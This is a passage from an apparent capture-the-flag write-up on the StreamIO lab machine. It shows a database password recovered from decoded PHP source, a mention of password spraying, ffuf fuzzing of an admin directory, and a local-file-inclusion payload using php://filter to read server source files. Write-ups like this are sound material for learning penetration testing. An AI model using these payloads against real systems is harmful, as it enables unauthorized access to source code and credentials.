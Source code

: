 We can copy and paste the base64 string into a file, decode it, and examine if anything interesting lies in the source code. Unfortunately, other that the database's credentials, which we have already compromise, not much else is there. Password-spraying our `users` list with `db_admin`'s password does not result in any hit back.

{% code overflow="wrap" %}
```bash
# pasting the string into a file
nano index.php.enc
# decoding the file and write its output to another file
cat index.php.enc | base64 -d > index.php
# inspecting the file
most index.php
<SNIP>
$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
<SNIP>
```
{% endcode %}

Fuzzing the `/admin` directory to check if it contains any other files other than the `index.php` which we could then exfiltrate and read, reveals the `master.php` file (Figure 27).

{% code overflow="wrap" %}
```bash
ffuf -u https://streamio.htb/admin/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -c -ac -ic -e .php
```
{% endcode %}

<figure><img src="../../.gitbook/assets/streamio_fuff_masterphp.png" alt=""><figcaption><p>Figure 27: Fuzzing the <code>/admin</code> directory reveals the <code>master.php</code> file.</p></figcaption></figure>

After exfiltrating the file using the same process as before, we find a few very interesting lines of code at the very end of it (Figure 28). This part of the code is essentially setting an `include` parameter in the `POST` request which executes any other file than `index.php`.

```html
# exfiltrating the master.php file via LFI
/admin/?debug=php://filter/read=convert.base64-encode/resource=master.php
```

```bash
# pasting the string into a file
nano master.php.enc
# decoding the file and write its output to another file
cat master.php.enc | base64 -d > master.php
# inspecting the file
most master.php
```
